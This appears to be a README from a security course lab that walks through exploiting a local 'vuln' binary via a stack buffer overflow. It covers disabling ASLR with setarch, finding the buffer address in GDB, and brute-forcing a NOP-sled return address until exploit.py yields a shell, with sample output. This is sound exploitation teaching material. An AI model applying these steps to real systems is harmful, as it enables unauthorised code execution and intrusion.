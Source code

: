 This task is already solved. Disassemble the `vuln` executable, see where the buffer overflow happens and what is the offset from the buffer start to the return address. The executable is compiled with the `-zexecstack option` such that the stack is executable and we can inject binary code.

   The `exploit.py` script exploits the current executable and gets you a shell; the script crafts a shellcode and then injects it in the buffer and then overwrites the return address with the start of the buffer. The script has to be run into a non-ASLR environment. In order to create that, run the command below to create a non-ASLR shell:

   ::

       setarch $(uname -m) -R /bin/bash

   As you can't really know the precise address of the buffer, we use `NOP` instructions as padding in the buffer and we have to do a bit of randomizing to guess the start address of the buffer. This is because, although ASLR is disabled, the buffer address is affected by the environment. So we have to do a bit of matching. For that you have to change the first 5 nibbles (hexadecimal digits) in line `32` in `exploit.py` from `0xffffd` to the likely address. For that to happen, find the buffer address in GDB:

   ::

      razvan@einherjar:~/.../tasks/src/use-shellcode$ gdb -q ./vuln
      Reading symbols from ./vuln...done.
      gdb-peda$ start
      [...]
      gdb-peda$ b reader
      Breakpoint 2 at 0x804849c: file vuln.c, line 8.
      gdb-peda$ c
      Continuing.
      Greetings, your liege!
      [...]
      Breakpoint 2, reader () at vuln.c:8
      8     printf("gimme message: ");
      gdb-peda$ p $esp
      $1 = (void *) 0xffffcf70

   The last value (`0xffffcf70`) is the approximate value of the buffer (that's where the stack pointer is after the prologue of the `reader` function). As the stack is likely larger in GDB (`0xffffcf70`) we use a slightly lower address in the `exploit.py` script (`0xffffd000`).

   **Update** line `32` in the `exploit.py` script with the proper value from the GDB inspection.

   Now run the script and wait a bit for it to jump to the proper address on the stack (through randomization), same as below. It should take no more than 2-3 minutes.

   ::

      razvan@einherjar:~/.../tasks/src/use-shellcode$ python exploit.py
      [+] Starting local process './vuln': Done
      Using address 0xffffd8b0
      [*] Process './vuln' stopped with exit code -11
      [...]
      [+] Starting local process './vuln': Done
      Using address 0xffffdbe0
      [*] Process './vuln' stopped with exit code -11
      [+] Starting local process './vuln': Done
      Using address 0xffffd5f0
      [*] Process './vuln' stopped with exit code -11
      [+] Starting local process './vuln': Done
      Using address 0xffffd040
      [*] Switching to interactive mode
      $ ls
      Makefile  core    exploit.py  vuln  vuln.c  vuln.o

